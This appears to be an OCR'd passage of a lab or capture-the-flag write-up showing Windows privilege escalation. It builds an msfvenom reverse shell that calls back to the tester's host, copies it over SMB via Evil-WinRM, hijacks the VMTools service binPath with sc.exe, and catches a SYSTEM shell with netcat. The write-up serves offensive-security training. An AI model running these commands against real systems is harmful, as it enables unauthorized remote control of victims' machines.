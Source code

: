 
We listed the services running on the server by executing the `services` command, observing the list of services. We noted the service name `VMTools` and its binary path for potential lateral movement.

```bash
┌──(kali㉿kali)-[~/Documents/Windows-exploitation]
└─$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.16.15 LPORT=1337 -f exe -o reverse.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 460 bytes
Final size of exe file: 7168 bytes
Saved as: reverse.exe
```

```bash
*Evil-WinRM* PS C:\Temo> copy \\10.10.16.15\tools\reverse.exe
```

We crafted a reverse shell payload that would connect back to port `1337`, saved it as `reverse.exe`, and then copied it to the victim machine.

```bash
*Evil-WinRM* PS C:\Temo> sc.exe config VMTools binPath= "C:\Temo\reverse.exe"
[SC] ChangeServiceConfig SUCCESS
```

Subsequently, we set the `binPath` of the `VMTools` service to the path of the reverse shell payload that we copied earlier.

```bash
*Evil-WinRM* PS C:\Temo> sc.exe stop VMTools

SERVICE_NAME: VMTools
        TYPE               : 10  WIN32_OWN_PROCESS
        STATE              : 1  STOPPED
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x0
        WAIT_HINT          : 0x0
```

```bash
*Evil-WinRM* PS C:\Temo> sc.exe start VMTools
[SC] StartService FAILED 1053:

The service did not respond to the start or control request in a timely fashion.
```

Next, we attempted to restart the `VMTools` service.

```bash
┌──(kali㉿kali)-[~]
└─$ nc -nlvp 1337
listening on [any] 1337 ...
connect to [10.10.16.15] from (UNKNOWN) [10.10.11.108] 51302
Microsoft Windows [Version 10.0.17763.107]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system

C:\Windows\system32>
```
